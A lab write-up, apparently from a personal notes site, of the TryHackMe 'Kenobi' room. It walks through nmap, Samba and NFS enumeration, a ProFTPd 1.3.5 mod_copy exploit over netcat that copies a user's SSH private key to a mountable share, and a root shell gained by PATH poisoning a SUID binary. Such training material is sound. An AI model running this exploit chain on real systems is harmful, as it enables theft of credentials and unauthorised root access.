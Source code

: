```yaml
---
layout: md
title: TryHackMe Kenobi Room
description: Notes on tryhackme.com's kenobi challenge
tags: ['security', 'tryhackme']
terms: ['linux', 'security', 'thm']
---
```


{% include project-headers.html %}

[TryHackMe ~ Kenobi](https://tryhackme.com/room/kenobi)

Includes:
- Recon
  - nmap
  - samba enumeration
  - nfs scans
- Exploit
  - netcat
  - searchsploit
- Privilege esculation
  - SUID binaries
  - PATH poisoning

### Recon

#### Nmap 
Port and service scan:
```bash
nmap -sV -sC <ip> -oX nmap-service-scan.xml | tee nmap-sevice-scan.txt 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 10:42 BST

Not shown: 993 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
    [... removed ...]
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2021-04-22T04:43:37-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-22T09:43:38
|_  start_date: N/A
```

Samba share enum:
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 10:47 BST
Nmap scan report for <ip>
Host is up (0.57s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\<ip>\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\<ip>\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\<ip>\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

nfs scan:
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>
```
Shows `/var` can be mounted via nfs.

#### Samba
Connect:
```bash
smbclient //<ip>/anonymous
```

Recursive download:
```bash
smbget -R smb://<ip>/anonymous
```
This gave a `log.txt` with some information about usernames, ssh key locations and the ftp service.

#### Searchspoilt
```bash
searchsploit proftp 1.3.5 
------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                |  Path
------------------------------------------------------------------------------ ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                     | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                           | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                     | linux/remote/36742.txt
------------------------------------------------------------------------------ ---------------------------------

searchsploit -p linux/remote/36742.txt
```
`linux/remote/36742.txt` shows an example of using nc and ProFTPd 1.3.5 to copy files to different locations on the system.

### Exploitation

#### Netcat -> ProFTPd File copy
We know the location of the ssh key from `log.txt` and a nfs location of `/var`.

```bash
nc <ip> 21                        
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [<ip>]

SITE CPFR /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

#### Retrieving key
```bash
mkdir /mnt/kenobi
mount <ip>:/var /mnt/kenobi
cp /mnt/kenobi/tmp/id_rsa .
```

#### Using Key
```bash
chmod 600 id_rsa
ssh -i ./id_rsa kenobi@<ip>
```
and we are in!

#### Privilege Esculation

#### Searching for root suid binaries
```bash
find / -perm -u=s -type f 2>/dev/null
```
This find typical binaries and files like ping, sudo etc and `/usr/bin/menu`

#### Exploiting this

Running `/usr/bin/menu` brings up 3 options that just look like preconfigured system commands.
```
strings /usr/bin/menu

curl -I localhost
uname -r
ifconfig
```
These are the commands that are being used and would be run as root, they don't specify a full path so we can exploit these using the PATH variable to redirect the issued command to our own binary that will be run as root.

```
cd /tmp
echo /bin/sh > curl
chmod 777 curl
PATH=/tmp:$PATH; /usr/bin/menu
```
Run the curl command via the menu binary and `#`, root shell!





